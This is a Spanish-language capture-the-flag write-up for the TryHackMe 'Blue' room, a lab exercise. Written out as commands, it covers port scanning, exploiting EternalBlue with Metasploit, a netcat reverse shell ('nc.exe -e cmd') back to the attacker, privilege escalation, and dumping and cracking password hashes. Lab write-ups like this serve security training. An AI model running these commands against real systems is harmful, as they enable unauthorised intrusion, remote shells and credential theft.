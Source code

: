 ```yaml
---
title: "Blue"
description: "Blue thm"
pubDate: 2025-05-09
---
```

https://tryhackme.com/r/room/blue
# Fase de reconocimiento
## Buscar puertos abiertos
```
nmap -sT -Pn -p- --open --min-rate 5000 -T5 -vvv -n 10.10.101.248 -oG allports
```
![](/attachments/Pasted%20image%2020240427181452.png)
## Reconocimiento de servicios
```
nmap -sCV -p135,139,445,3389 10.10.101.248 -oN targeted
```
![[Pasted image 20240427183221.png]]
## crackmapexec
```
crackmapexec smb 10.10.101.248
```
![[Pasted image 20240427181551.png]]

# Fase de ataque
## Metasploit
```
msfconsole
```
```
msf6> search eternalblue
```
![[Pasted image 20240427182201.png]]
```
msf6> use 0
```
```
msf6> show options
```
```
msf6> set RHOSTS 10.10.101.248
```
En este caso usamos shell porque queremos
```
msf6> set payload windows/x64/shell/reverse_tcp
```
En este caso por la VPN:
```
set LHOST 10.9.1.161
```
```
msf6> run
```
[-] ==pwned!==

# Privilege Escalation
```
msf6> search shell_to
```
![[Pasted image 20240427190335.png]]

```
msf6> use 0
```
```
msf6> show options
```
```
msf6> set SESSION 1
```
En este caso por la VPN:
```
msf6>set LHOST 10.9.1.161
```
```
msf6> run 
```
```
msf6> sessions -l
```
```
msf6> sessiobs -i 2
```
```
meterpreter> getsystem
```
[+] ==pwned!==

## Shell completa
1. Abrimos un smbserver
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
2. Copiamos a través de archivos compartidos el netcat
```
copy \\<ip2>\smbFolder\nc64.exe C:\Windowss\Temp\nc.exe
```
3. Nos ponemos en escucha por el puerto 445
```
rlwrap nc -nlvp 445
```
4. Ejecutamos el netcat
```
C:\Windows\Temp\nc.exe -e cmd <ip> 445
```


# Post Explotation
```
meterpreter> ps
```
```
meterpreter> migrate ID_PROCESO
```
![[Pasted image 20240427192129.png]]
```
meterpreter> hashdump
```
![[Pasted image 20240427192123.png]]
```
hashcat -m 1000 hash /usr/share/wordlist/rockyou.txt
```
Found!

Buscar flags
```
meterpreter> search -f flag.txt
```